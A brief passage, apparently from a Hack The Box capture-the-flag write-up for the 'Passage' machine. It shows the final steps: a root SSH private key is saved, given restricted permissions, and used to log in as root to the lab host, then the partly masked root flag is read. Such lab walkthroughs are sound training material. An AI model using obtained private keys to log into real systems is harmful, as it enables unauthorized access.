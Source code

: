 ```sh
kali@kali-[~/boxes/htb/passage]$subl root_id
kali@kali-[~/boxes/htb/passage]$chmod 600 root_id
kali@kali-[~/boxes/htb/passage]$ssh root@10.10.10.206 -i root_id 
Last login: Mon Aug 31 15:14:22 2020 from 127.0.0.1
root@passage:~# 
```

```sh
root@passage:~# cat root.txt
958f44e1ff4b210f............
```
